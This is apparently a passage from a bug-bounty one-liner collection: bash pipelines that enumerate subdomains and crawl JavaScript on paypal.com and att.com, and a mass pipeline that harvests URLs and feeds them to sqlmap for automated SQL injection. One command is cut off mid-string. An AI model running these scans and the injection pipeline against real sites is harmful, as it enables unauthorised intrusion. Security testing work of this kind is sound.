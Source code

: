 ```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''
```

###  SQLINJECTION Mass domain file

- [Explaining command]

```bash

httpx -l domains -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```


###  Using chaos search js


- [Explaining command]

Chaos is an API by Project Discovery that discovers subdomains. Here we are querying thier API for all known subdoains of "att.com". We are then using httpx to find which of those domains is live and hosts an HTTP or HTTPs site. We then pass those URLs to GoSpider to visit them and crawl them for all links (javascript, endpoints, etc). We then grep to find all the JS files. We pipe this all through anew so we see the output iterativlely (faster) and grep for "(http|https)://att.com" to make sure we dont recieve output for domains that are not "att.com".

```bash
chaos -d att.com | httpx -silent | xargs -I@ -P20 sh -c 'gospider -a -s "@" -d 2' | grep -Eo "(http|https)://[^/"].*.js+" | sed "s#]
```

###  Search Subdomain using Gospider


- [Explaining command]

GoSpider to visit them and crawl them for all links (javascript, endpoints, etc) we use some blacklist, so that it doesn’t travel, not to delay, grep is a command-line utility for searching plain-text data sets for lines that match a regular expression to search HTTP and HTTPS

```bash
gospider -d 0 -s "https://site.com" -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```

###  Using gospider to chaos


- [Explaining command]

GoSpider to visit them and crawl them for all links (javascript, endpoints, etc) chaos is a subdomain search project, to use it needs the api, to xargs is a command on Unix and most Unix-like operating systems used to build and execute commands from standard input.


```bash
chaos -d paypal.com -bbq -filter-wildcard -http-url | xargs -I@ -P5 sh -c 'gospider -a -s "@" -d 3'
```
